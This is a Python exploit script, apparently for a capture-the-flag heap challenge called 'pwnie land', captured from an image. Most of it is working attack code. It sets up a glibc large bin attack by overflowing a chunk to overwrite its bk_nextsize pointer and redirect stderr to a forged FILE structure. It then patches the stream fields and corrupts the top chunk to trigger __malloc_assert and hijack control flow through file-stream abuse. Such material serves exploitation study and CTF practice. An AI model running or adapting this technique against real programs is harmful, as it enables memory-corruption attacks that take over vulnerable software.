 ```python
    pwnie_land_final_fake_fs = add_pwnie_land(pwnie_land_size = 0xd0, pwnie_land_contents=final_fake_fs)
    pwnie_land_overflow_A = add_pwnie_land(pwnie_land_size = 0x20, pwnie_land_contents=b'Corrupt the evil')
    pwnie_land_A = add_pwnie_land(pwnie_land_size = 0x820, pwnie_land_contents=fake_fs)
    pwnie_land_B = add_pwnie_land(pwnie_land_size=0x70, pwnie_land_contents=b'This pwnie land chunk will be used to corrupt pwnie_land_C->bk_nextsize pointer') # this will take a guard chunk role also.
    pwnie_land_C = add_pwnie_land(pwnie_land_size = 0x830, pwnie_land_contents=b'I am read to unleash a deadly large bin attack!')
    pwnie_land_guard_C = add_pwnie_land(pwnie_land_size = 0x40, pwnie_land_contents=b'Waiting to trigger our deadly FSOP!')
    
    # Initiate our large bin attack.
    burn_pwnie_land(pwnie_land_C) # free the biggest large chunk.
    
    # currently chunk 0x830 is linked in unsortedbin list, let's sort it to large bin list.
    pwnie_land_sorter_chunk = add_pwnie_land(pwnie_land_size=0x840, pwnie_land_contents=b'blah blah')
    burn_pwnie_land(pwnie_land_A) # free the smallest large chunk.
    
    burn_pwnie_land(pwnie_land_B) # we free this chunk inorder to overflow to pwnie_land_C and hijack bk_nextsize pointer.
    
    pwnie_land_B = add_pwnie_land(pwnie_land_size=0x70, pwnie_land_contents=b'A'*0x60 + p64(0x0) + p64(0x830) + p64(0x0) + p64(0x0) + p64(0x0) + p64(target))
    
    pwnie_land_sorter_chunk = add_pwnie_land(pwnie_land_size=0x840, pwnie_land_contents=p8(0)*0x838 + p64(0x0)) # we also want to corrupt top chunk pointer inorder to trigger sysmalloc
    # stderr now points back to our pwnie_land_C chunk.
    
    # before unleashing the true evil we need to fix some things first because stderr's _IO_write_ptr and _IO_write_base are not controlable from us.
    # we will trigger another heap overflow to fix those.
    burn_pwnie_land(pwnie_land_overflow_A)
    
    fix_flags = p64(_IO_UNBUFFERED) # we want to add _IO_UNBUFFERED inorder to call buffered_vfprintf!
    fix_IO_read_ptr = p64(_locker) # this will be the _locker of our final fake FILE stream. 
    fix_IO_read_end = p64(0x0)
    fix_IO_read_base = p64(0x0)
    fix_IO_write_base = what
    fix_IO_write_ptr = fix_IO_write_base + what2
    
    fix_IO_write_base = p64(fix_IO_write_base)
    fix_IO_write_ptr = p64(fix_IO_write_ptr)
    
    fixes = fix_flags + fix_IO_read_ptr + fix_IO_read_end + fix_IO_read_base + fix_IO_write_base + fix_IO_write_ptr
    pwnie_land_overflow_A = add_pwnie_land(pwnie_land_size=0x20, pwnie_land_contents = p8(0x0)*0x10 + fixes)
    
    # last step we want to trigger our fake FILE stream through __malloc_assert
    # to trigger a our fake FILE stream, essentially we need to trigger any malloc assertion.
    # The easiest way in our PoC is corrupting the top chunk.
    
    # we have already corrupted top chunk size so we only need to trigger it.
    pwnie_land_assert_starter = add_pwnie_land(pwnie_land_size=0x840, pwnie_land_contents=b'Unleash the evil _IO_mem_sync spirit!') 
    
    # __malloc_assert is called now, the beasts are unleashed! Corrupt the pwnie land and give us freedom!

```